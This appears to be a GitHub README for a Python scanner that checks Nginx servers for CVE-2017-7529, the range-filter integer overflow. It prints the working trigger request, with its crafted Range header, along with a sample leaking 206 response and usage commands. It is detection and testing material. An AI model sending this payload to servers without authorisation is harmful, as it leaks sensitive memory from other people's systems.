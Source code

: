 # Cve_Finder_2017-7529
The tool is used to detect whether a server is vulnerable to Nginx Remote Integer Overflow CVE (2017-7529)

## Nginix Remote Integer Overflow

Nginx CVE-2017-7529 Remote Integer Overflow Vulnerability. Description: Nginx versions since 0.5. 6 up to and including 1.13. 2 are vulnerable to integer overflow vulnerability in nginx range filter module resulting into leak of potentially sensitive information triggered by specially crafted request.The attacker sends a specially crafted header Range in HTTP Request which causes the vulnerable Nginx Server to overflow memory bytes of server or leaks its content.

The response code for detecting Nginx Remote Overflow is 206 and Partial Content is recieved in HTTP status line. 

### Request

 GET /domain HTTP/1.1<br/>
 Accept-Encoding: identity<br/>
 Range: bytes=-17208,-9223372036854758792<br/>
 Host: 127.0.0.1:8000<br/>
 Connection: close<br/>
 User-Agent: Python-urllib/2.7<br/>

### Response

 HTTP/1.1 206 Partial Content<br/>
 Server: nginx/1.13.1<br/>
 Date: Mon, 21 May 2020 06:51:52 GMT<br/>
 Content-Type: multipart/byteranges; boundary=00000000000000000002<br/>
 Connection: close<br/>
 Last-Modified: Mon, 17 Jul 2017 02:19:08 GMT<br/>
 ETag: "40c9-5547a060fdf00"<br/>
 X-Proxy-Cache: HIT<br/>
 --00000000000000000002<br/>
 Content-Type: text/html<br/>
 Content-Range: bytes -623-16584/16585<br/>

#### Requirements:

1) requests
2) optparse

##### Download Requirements:

pip install -r requriements.txt

###### Download:

1) git clone 
2) cd Cve_Finder_2017-7529
3) python nginx_remote_integer_overflow.py -d https://domain.com

